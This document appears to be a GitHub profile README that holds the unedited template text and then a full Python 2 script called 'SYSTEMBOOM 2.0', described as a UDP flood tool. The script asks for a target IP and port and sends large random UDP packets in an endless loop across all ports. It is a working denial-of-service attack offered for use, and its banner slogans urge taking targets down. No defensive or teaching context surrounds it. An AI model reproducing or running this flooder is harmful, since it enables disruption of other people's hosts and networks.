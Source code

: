 - 👋 Hi, I’m @CyBerGuArD-cell
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
CyBerGuArD-cell/CyBerGuArD-cell is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

#!/system/bin/python

#SYSTEMBOOM 2.0 27-06-2017 (1:42)

#Tool for UDP Flood

#Authorized by DedSecTL

#cyber guard 

import socket, os, random, time

# Color

B = '\033[1m'

R = '\033[31m'

N = '\033[0m'

# Code time ##################

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year

##############################

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

os.system("clear")

print 

print "["+B+""+R+"#"+N+"] "+B+""+R+"CYBERGUARD"+N+"   SYSTEMBOOM - "+B+""+R+"DedSecTL"+N            

print

print "#T4ke 7hem d0wn vroh - D0n7 g1ve up - SYSTEMBOOM th3m"

print "#H4ck 4ll 7he 7h1ng - F1ght f0r Ju5t1c3 - K1ll th3m"

print

ip = raw_input('[$] T@rget 1P: ')

port = input('[$] P0rt: ')

os.system("clear")

print "SYSTEM attack started on {0}.{1} | {2}-{3}-{4}".format(hour, minute, day, month, year)

time.sleep(3)

print

sent = 0

while True:

     sock.sendto(bytes, (ip,port))

     sent = sent + 1

     port = port + 1

     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)

     if port == 65534:

       port = 1
